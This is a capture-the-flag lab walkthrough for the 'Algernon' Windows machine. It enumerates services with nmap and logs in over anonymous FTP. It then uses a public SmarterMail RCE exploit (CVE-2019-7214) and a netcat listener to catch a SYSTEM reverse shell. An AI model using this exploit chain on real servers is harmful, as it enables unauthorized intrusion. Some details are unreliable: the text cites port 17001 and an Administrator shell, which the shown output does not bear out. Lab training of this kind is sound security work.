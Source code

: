 # ​Proving Grounds - Easy Windows - Algernon

- **Points** 10
- **Level** Easy
- **Number of Flags** 1
- **Vector Type** SmarterMail
- **IP** 192.168.53.65
- **Job Roles** Network Penetration Tester
- **Skills** Web Application Attacks

---

# About

In this lab, we will exploit a remote code execution vulnerability in build 6985 of the SmarterMail application. This exercise enhances your skills in identifying and exploiting vulnerabilities for gaining access to systems.

---

# Summary

This lab demonstrates exploiting a remote code execution vulnerability in SmarterMail build 6985 to gain SYSTEM-level access on a Windows server. Learners will identify the application version, leverage an RCE exploit, and use a reverse shell payload to compromise the target. This lab emphasizes web application exploitation and highlights the risks of unpatched software.

---

## Learning Objectives

**After completion of this lab, learners will be able to:**

- Enumerate open ports and services to identify the SmarterMail application running on port 9998.
- Confirm the application version and search for applicable exploits.
- Deploy the SmarterMail RCE exploit with a reverse shell payload.
- Verify SYSTEM-level access upon successful exploitation.
- Understand the importance of applying patches to mitigate known vulnerabilities.


---

## Recon

- NMap scan

```bash
nmap -A 192.168.53.65
Starting Nmap 7.95 ( https://nmap.org ) at 2025-07-17 09:10 UTC
Nmap scan report for 192.168.53.65
Host is up (0.00086s latency).
Not shown: 994 closed tcp ports (reset)
PORT     STATE SERVICE       VERSION
21/tcp   open  ftp           Microsoft ftpd
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| 04-29-20  10:31PM       <DIR>          ImapRetrieval
| 07-17-25  02:07AM       <DIR>          Logs
| 04-29-20  10:31PM       <DIR>          PopRetrieval
|_04-29-20  10:32PM       <DIR>          Spool
| ftp-syst: 
|_  SYST: Windows_NT
80/tcp   open  http          Microsoft IIS httpd 10.0
|_http-title: IIS Windows
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp  open  microsoft-ds?
9998/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
| uptime-agent-info: HTTP/1.1 400 Bad Request\x0D
| Content-Type: text/html; charset=us-ascii\x0D
| Server: Microsoft-HTTPAPI/2.0\x0D
| Date: Thu, 17 Jul 2025 09:11:05 GMT\x0D
| Connection: close\x0D
| Content-Length: 326\x0D
| \x0D
| <!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 4.01//EN""http://www.w3.org/TR/html4/strict.dtd">\x0D
| <HTML><HEAD><TITLE>Bad Request</TITLE>\x0D
| <META HTTP-EQUIV="Content-Type" Content="text/html; charset=us-ascii"></HEAD>\x0D
| <BODY><h2>Bad Request - Invalid Verb</h2>\x0D
| <hr><p>HTTP Error 400. The request verb is invalid.</p>\x0D
|_</BODY></HTML>\x0D
|_http-server-header: Microsoft-IIS/10.0
Device type: general purpose
Running: Microsoft Windows 10
OS CPE: cpe:/o:microsoft:windows_10
OS details: Microsoft Windows 10 1903 - 21H1
Network Distance: 2 hops
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2025-07-17T09:11:05
|_  start_date: N/A
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required

TRACEROUTE (using port 443/tcp)
HOP RTT     ADDRESS
1   0.57 ms 192.168.49.1
2   0.96 ms 192.168.53.65

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 37.88 seconds

```


---

## Basic Enumeration
- Anonymous FTP login is enabled, allowing unauthenticated access.

```bash
ftp 192.168.53.65
Connected to 192.168.53.65.
220 Microsoft FTP Service
Name (192.168.53.65:kali): anonymous
331 Anonymous access allowed, send identity (e-mail name) as password.
Password: 
230 User logged in.
Remote system type is Windows_NT.
```

**Note: No sensitive data was found in the accessible FTP directories.(Rabbit Hole)**

- Port 80 is just a windows IIS page.
- Port 9998 is a login page.

---

## Port 9998 Enumeration
- Opening port 9998 in browser redirects to http://192.168.53.65:9998/interface/root#/login.
- Which is a login page belongs to **smartmailer**.
- Researching exploits for SmarterMail on Google we come across an interesting exploit.
- Exploit link https://www.exploit-db.com/exploits/49216

---

## Exploiting CVE-2019-7214 to get initial access

- Looking at the `nmap` results from earlier we do have .NET remoting running on port 17001. As such this exploit should be applicable to the target machine.
- Exploit configuration . We just need to update target ip (HOST) and our machine ip (LHOST) in the script.
- Then we need to start a netcat listener to get reverse shell.

```bash
nc -lvnp 4444
```

- After starting the listener, we can execute the exploit to get reverse shell.

```bash
python3 49216
```
- We will get the shell in our netcat listener as **Administrator**

```bash
nc -lvnp 4444 
listening on [any] 4444 ...
connect to [192.168.49.53] from (UNKNOWN) [192.168.53.65] 49906
bash -i
PS C:\Windows\system32> whoami
nt authority\system
PS C:\Windows\system32> 
```
---

## Flag Extraction
- Now we can just navigate to **C:\Users\Administrator\Desktop** and read the flag inside **proof.txt** file.

```bash
PS C:\Users\Administrator\Desktop> ls


    Directory: C:\Users\Administrator\Desktop


Mode                LastWriteTime         Length Name                                                                  
----                -------------         ------ ----                                                                  
-a----        4/29/2020   9:29 PM           1450 Microsoft Edge.lnk                                                    
-a----        7/17/2025   2:07 AM             34 proof.txt                                                             


PS C:\Users\Administrator\Desktop> type proof.txt
76fb8ea14********1c2cbbb
```

---

## Author

[Zishan Ahamed Thandar](https://zishanadthandar.github.io)

